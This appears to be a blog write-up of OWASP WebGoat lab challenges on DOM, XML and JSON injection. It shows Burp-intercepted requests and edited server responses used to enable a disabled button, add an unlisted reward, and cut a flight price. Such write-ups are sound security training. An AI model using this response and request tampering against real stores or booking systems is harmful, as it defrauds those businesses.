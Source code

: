 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: AJAX Security"
subtitle: "DOM Injection, XML Injection, JSON Injection"
date:   2017-01-24 17:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# AJAX Security Part 5: Dom Injection
Alright, we're given the following instructions for this challenge:

- Your victim is a system that takes an activation key to allow you to use it.
- Your goal should be to try to get to enable the activate button.
- Take some time to see the HTML source in order to understand how the key validation process works.

Let's take a look at the HTML that defines the ```Activate``` button

```
<input disabled="" id="SUBMIT" value="Activate!" name="SUBMIT" type="SUBMIT">
```

Hmm..disabled? But, what if we just...

```
<input enabled="" id="SUBMIT" value="Activate!" name="SUBMIT" type="SUBMIT">
```

<img src="{{ site.baseurl }}/images/webgoat/2017-01-24-webgoat_part_3_continued/dom-injection.jpg">

Well, okay! ```¯\_(ツ)_/¯```

# AJAX Security Part 6: XML Injection
We're given the following instructions for this challenge:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-24-webgoat_part_3_continued/xml-injection.jpg">

Looks like we're probably going to need to fire up Burp and check out some requests. Now I have to be honest, I spent *a lot* of time messing around with requests and trying to see the breadcrumb I was missing. Then I realized that there was an option to capture the response to a given request in Burp...Which it turns out was pretty essential to solving this one. So when I finished typing in my account number (836239), an AJAX request fired out:

```
GET /WebGoat/attack?Screen=59&menu=400&from=ajax&accountID=836239 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=59&menu=400
Cookie: JSESSIONID=C1702A9FE913D04E2F177203213F9149; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
```

Alright, cool. Looks like it's going to retrieve my list of possible rewards from the webserver. I set Burp to intercept the server response and let it fly. The server did in fact come back with the list of rewards I was allowed to request:

```
HTTP/1.1 200 OK
Content-Length: 136
Connection: close

<root>
<reward>WebGoat Mug 20 Pts</reward>
<reward>WebGoat t-shirt 50 Pts</reward>
<reward>WebGoat Secure Kettle 30 Pts</reward>
</root>
```

But, I felt like I had been good this year. That and I'm pretty sure running 16.04 on my macbook is going to result in a fireball. So let's get a new laptop!

```
HTTP/1.1 200 OK
Content-Length: 136
Connection: close

<root>
<reward>WebGoat Mug 20 Pts</reward>
<reward>WebGoat t-shirt 50 Pts</reward>
<reward>WebGoat Secure Kettle 30 Pts</reward>
<reward>WebGoat Core Duo Laptop 2000 Pts</reward>
</root>
```

<img src="{{ site.baseurl }}/images/webgoat/2017-01-24-webgoat_part_3_continued/xml-injection-1.jpg">

Cool, it looks like we can select the laptop that wasn't previously on our list of rewards. Let's send it out and see if we can game the system:

```
POST /WebGoat/attack?Screen=59&menu=400 HTTP/1.1
Host: 192.168.56.101
Content-Length: 82

accountID=836239&check1001=on&check1002=on&check1003=on&check1004=on&SUBMIT=Submit
```

S-(e)[u]-rve-(r)[y] says.....

<img src="{{ site.baseurl }}/images/webgoat/2017-01-24-webgoat_part_3_continued/xml-injection-2.jpg">

Nice!

# AJAX Security Part 7: JSON Injection
JavaScript Object Notation, or JSON, is a data-interchange format that a lot of applications use for passing information back and forth. It is language-independent, which is desirable for applications, clients, and servers talking to each other when it can't be guaranteed that they all use the same backend language. In this challenge, we have a flight to catch:

- You are traveling from Boston, MA- Airport code BOS to Seattle, WA - Airport code SEA.
- Once you enter the three digit code of the airport, an AJAX request will be executed asking for the ticket price.
- You will notice that there are two flights available, an expensive one with no stops and another cheaper one with 2 stops.
- Your goal is to try to get the one with no stops but for a cheaper price. 

At first glance, it looks to me like another case of response interception and alteration. So firing up Burp (or I guess just keeping it open), I intercepted the request for a flight from BOS to SEA. Then I marked the server response to be intercepted and took a look:

```
{
	"From": "Boston",
	"To": "Seattle", 
	"flights": [
		{"stops": "0", "transit" : "N/A", "price": "$600"},
		{"stops": "2", "transit" : "Newark,Chicago", "price": "$300"} 
	]
}
```

Which pops up in the browser like so:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-24-webgoat_part_3_continued/json-injection-1.jpg">

Alright, lets request again and modify the server's response to see if we can manipulate the return data. I changed the price of our non-stop flight to the affordable price of $10 and forwarded it back to the browser. 

<img src="{{ site.baseurl }}/images/webgoat/2017-01-24-webgoat_part_3_continued/json-injection-2.jpg">

And, when we send it...Got it! Apparently no server-side checks for validity. Nice.